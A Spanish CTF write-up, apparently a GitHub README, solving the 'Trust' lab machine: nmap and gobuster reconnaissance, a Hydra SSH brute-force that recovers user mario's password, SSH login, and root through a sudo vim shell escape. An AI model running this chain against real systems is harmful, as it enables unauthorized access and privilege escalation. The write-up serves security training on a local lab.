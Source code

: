 # Maquina-Trust 
## Resolviendo maquina-Trust de "El Pingüino de Mario" 

> Paso N°:1 Scaneo con nmap. (Fase de reconocimiento)

```bash
nmap -A 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 09:40 -03
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3
(ECDSA)
|_ 256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b
(ED25519)
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
```
![scaneo1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/839fd0e6-ddae-4b03-ad92-ea861a58cfa6)

## Paso N°2: Buscamos alguna pista en la web.
### _Ya que podemos ver en el scaneo de nmap que el puerto "80/tcp open http Apache httpd 2.4.57 ((Debian))" esta abierto, asi que ponemos "http://172.17.0.2" en el navegador para ver que muestra:_

![scaneo2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4e677bca-cea9-4c82-8f11-cc9d40e33d8a)
### _Al ver solo la pagina de configuracion de Apache procedemos a un scaneo con Gobuster para ver si encontramos algo más importante._

## Paso N°3: Enumeracion usando gobuster.
### _Usamos el comando "gobuster dir -u" para enumerar todos los directorios en el servidor web y "-x php,txt,py,bak,php.bak" para las extensiones de archivo que Gobuster debe añadir a las palabras en la wordlist durante la búsqueda._

```bash
gobuster dir -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
![scaneo3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/8ebee023-93c2-44f5-9310-f141b58d1928)



## Paso N°4: Revisar y utilizar lo encontrado.

### _En éste caso vemos un "/secret.php" el cual vamos a usar poniendolo en la web como "http://172.17.0.2/secret.php" ,en la salida nos encontramos con un mensaje que dice:_ 
> mario, ésta web no es vulnerable.

![scaneo4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/098a01f7-2121-470d-9fe4-b0ab13a4b91b)


### _Asi que como nos da un nombre (Mario) podemos usarlo de prueba para ver si podemos obtener acceso por medio del ssh, pero como no tenemos la contraseña vamos a usar un "ataque de fuerza bruta", en éste caso con hydra_

## Paso N°5: Ataque de Fuerza Bruta con Hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-17 10:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-17 10:22:52
```
![scaneo5](https://github.com/EzeTauil/maquina-Trust/assets/118028611/72496ff2-a25a-4391-b968-884e9088714b)

## Paso N°6: Explotacion-Acceso por ssh.
### Con el ataque de Hydra encontramos la contraseña para el usuario mario la cual es "chocolate", asi que ahora nos conectamos a traves de ssh de la siguiente manera:

```bash
ssh mario@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux 10340d532be9 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
![acceso1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/48290ae0-a9fb-40d7-8869-f3bb7bab4586)


## Paso N°7: Escalando Privilegios.

```bash
mario@10340d532be9:~$ whoami
mario
```
![acceso2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4050709c-8b2c-44e3-9aa3-56f4a0a00c73)


### _Procedemos a verificar que comandos podemos ejecutar como usuario root, lo hacemos con el comando (sudo -l)_

```bash
mario@10340d532be9:~$ sudo -l  
[sudo] password for mario: 
Matching Defaults entries for mario on 10340d532be9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 10340d532be9:
    (ALL) /usr/bin/vim
```
![acceso3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/878ea32a-5cf4-4c02-8436-52109abf2a36)

### _Aca vemos que podemos usar "vim" como usuario root, asi que podemos explotar ésto para obtener una shell con privilegios de root, lo hacemos de la siguiente manera: (sudo vim) una vez adentro precionamos "Esc" y despues ":" y escribimos "!sh" de manera que el comando final quedaria asi ":!sh" y precionamos "Enter" ésto nos abre la shell como usuario root, lo comprobamos usando el comando "whoami" , si nos devuelve "root" es que lo logramos._

![acceso4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/c13dd59c-84a2-4b3b-a0a2-4ed5b75bdc4e)

## Obteniendo Shell con acceso root:

![accesoroot](https://github.com/EzeTauil/maquina-Trust/assets/118028611/648c4fee-27b6-40e6-8d4e-42315ee430ff)







